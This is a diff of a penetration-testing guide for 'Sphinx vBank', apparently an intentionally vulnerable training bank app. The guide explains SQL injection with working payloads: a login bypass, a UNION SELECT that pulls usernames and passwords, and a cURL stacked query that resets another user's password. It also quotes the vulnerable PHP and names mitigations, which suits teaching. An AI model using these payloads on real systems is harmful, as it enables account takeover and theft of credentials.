

Before and after one commit to Tayebwa-ian/bank_app, a Markdown page: PENETRATION_TESTING_GUIDE.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
refining the exploits

````diff
--- a/PENETRATION_TESTING_GUIDE.md
+++ b/PENETRATION_TESTING_GUIDE.md
@@ -1,29 +1,43 @@
-# Sphinx vBank: Senior Penetration Testing Manual
+# Sphinx vBank: Advanced Manual Penetration Testing Guide
 
-This document outlines the manual exploitation of Sphinx vBank. As a senior tester, our goal is to understand the underlying logic flaws by bypassing client-side controls and manipulating server-side state.
+This guide provides a professional walkthrough of the vulnerabilities within Sphinx vBank, focusing on manual exploitation techniques for learning purposes.
 
 ---
 
-## 1. Authentication & Identity Attacks
+## 1. SQL Injection (SQLi)
 
-### 1.1 SQL Injection: Authentication Bypass
-**Vulnerability**: Direct string concatenation in `htdocs/login.php`.
-**Code**: `$sql = "... where ...username='$username' and ...password='$password'";`
+### 1.1 Authentication Bypass
+**Definition**: Exploiting vulnerable SQL queries to gain access to an application without valid credentials.
+**Vulnerable Code**: `htdocs/login.php` (Lines 16-18)
+```php
+$username = $_REQUEST['username'];
+$password = $_REQUEST['password'];
+$sql = "SELECT * FROM " . $htbconf['db/users'] . " where " . $htbconf['db/users.username'] . "='$username' and " . $htbconf['db/users.password'] . "='$password'";
+```
+**Impact**: Complete unauthorized access to user accounts and sensitive banking data.
+**Mitigation**: Use Prepared Statements with parameterized queries (PDO or MySQLi).
 
-**Manual Method (Browser DevTools)**:
+**Manual Method (Browser)**:
 1. Navigate to the login page.
-2. Open the Console (F12).
-3. Execute:
-   ```javascript
-   document.loginForm.username.value = "' OR '1'='1";
-   document.loginForm.password.value = "ignore";
-   document.loginForm.submit();
-   ```
-4. **Why it works**: You are bypassing the `checkform()` function in `htb.js` which normally blocks the `'` character.
+2. Enter `' OR '1'='1` in the username and password fields.
+3. If the browser's JavaScript blocks you, open DevTools (F12), go to the **Console**, and type:
+   `document.loginForm.username.value = "' OR '1'='1"; document.loginForm.submit();`
 
-**Manual Method (cURL)**:
+### 1.2 Data Retrieval: Enumerating Accounts
+**Manual Method (Burp Suite)**:
+1. Once logged in, navigate to **Account Details**.
+2. Intercept the request. Note the `account` parameter (e.g., `252170513`).
+3. Use a `UNION SELECT` payload in the login field or search field to extract other users.
+4. **Payload**: `' UNION SELECT 1,username,password,name,firstname,null,null,null FROM users-- -`
+
+### 1.3 Stacked Queries: Changing Passwords & Creating Accounts
+**Vulnerability**: The use of `multi_query()` in `htdocs/login.php` (Line 23) allows multiple SQL statements separated by a semicolon.
+**Impact**: Attackers can modify, delete, or add data to any table.
+
+**Manual Scenario: Change Bob's Password**:
+1. Use cURL to send a stacked query:
 ```bash
-curl -i -c cookies.txt "http://localhost/index.php?page=login&username=' OR '1'='1&password=x"
+curl -i "http://localhost/login.php?username=alex';UPDATE+users+SET+password='hacked'+WHERE+username='bob';--+-&password=x"
 ```
 
 ### 1.2 Account Enumeration (Zero-Knowledge)
````
